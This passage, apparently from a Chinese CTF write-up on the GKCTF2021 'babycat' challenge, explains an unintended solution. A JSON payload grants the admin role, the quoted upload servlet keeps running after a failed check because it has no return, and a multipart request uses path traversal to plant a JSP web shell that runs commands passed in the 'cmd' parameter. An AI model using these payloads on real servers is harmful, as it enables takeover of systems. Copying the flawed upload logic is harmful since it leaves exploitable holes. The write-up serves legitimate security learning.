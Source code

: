 ```
data={"username":"1","password":"1","role":"admin","1":{"role":"1"}}
```

这样role就是admin了，可以使用文件上传功能。

文件上传功能那里限制了文件的后缀很内容，但是这里出了问题：

```java
                    if (checkExt(ext) || checkContent(item.getInputStream())) {
                        req.setAttribute("error", "upload failed");
                        req.getRequestDispatcher("../WEB-INF/upload.jsp").forward(req, resp);
                    }

                    String filePath = uploadPath + File.separator + name + ext;
                    File storeFile = new File(filePath);
                    item.write(storeFile);
                    req.setAttribute("error", "upload success!");
```

在if里面，如果后缀或者内容出了问题，进行请求转发后，并没有return：

> 无论是 request.getRequestDispatcher(path).forward(request, response)还是response.sendRedirect,程序都会在执行完该句的情况下继续向下执行,因此在必要的时候应该使用return终止该方法.



这就是非预期产生的原因，可以随便写马上传。写个jsp木马然后上传，但是upload目录不可写，写到static目录就可以了：

```http
------WebKitFormBoundaryLH4SrsDPS4UucSBo
Content-Disposition: form-data; name="file"; filename="../../static/2.jsp"
Content-Type: application/octet-stream

        <%
            java.io.InputStream input = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
            int len = -1;
            byte[] bytes = new byte[1024];
            out.print("<pre>");
            while ((len = input.read(bytes)) != -1) {
                out.println(new String(bytes, "GBK"));
            }
            out.print("</pre>");
    %>
------WebKitFormBoundaryLH4SrsDPS4UucSBo--

```



![image-20210903105537495]([WriteUp]GKCTF2021 babycat.assets/image-20210903105537495.png)



# 预期解
